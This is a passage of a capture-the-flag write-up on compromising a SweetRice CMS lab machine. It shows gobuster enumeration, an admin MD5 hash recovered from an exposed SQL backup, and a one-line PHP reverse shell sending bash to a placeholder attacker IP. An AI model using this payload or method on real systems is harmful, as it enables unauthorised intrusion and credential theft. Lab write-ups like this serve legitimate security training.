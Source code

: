   ```

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.hta                 (Status: 403) [Size: 277]
  /.htpasswd            (Status: 403) [Size: 277]
  /_themes              (Status: 301) [Size: 322] [--> http://10.10.98.169/content/_themes/]
  /.htaccess            (Status: 403) [Size: 277]
  /as                   (Status: 301) [Size: 317] [--> http://10.10.98.169/content/as/]
  /attachment           (Status: 301) [Size: 325] [--> http://10.10.98.169/content/attachment/]
  /images               (Status: 301) [Size: 321] [--> http://10.10.98.169/content/images/]
  /inc                  (Status: 301) [Size: 318] [--> http://10.10.98.169/content/inc/]
  /index.php            (Status: 200) [Size: 2198]
  /js                   (Status: 301) [Size: 317] [--> http://10.10.98.169/content/js/]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- When I visited `http://10.10.98.169/content/` I saw that it's a `SweetRice` page so I immediately started looking for some exploits. I found [this exploit](https://www.exploit-db.com/exploits/40716) for Arbitrary File Upload in addition to XSS and SQLI exploits.

- After digging through assets I also found login page `http://10.10.98.169/content/as/` where I spent some time trying for SQLI.
  
- Since this exploit requires username and password I saved it for later and continued digging through newly found directories where I found `mysql_bakup_20191129023059-1.5.1.sql` on `http://10.10.98.169/content/inc/mysql_backup/` which is exactly what I needed.

  ```
  cat mysql_bakup_20191129023059-1.5.1.sql 
  \\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
  ```
  
- After checking the databse backup I found admin credentials, cracked the MD5 hash and got the password `Password123`. Perfect, now I can get access to targets database.

---

## ⚙️ Shell Access

- OK, so I did some exploring after logging in with found credentials, you can upload files from manager account but I decided to use the exploit that I already found. Exploit requires 4 inputs: url, username, password and file name.
  Since I already have all necessary requirements except the shell, I just made one.

  ```
  nano shell.php5

  <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1'");
  ```
  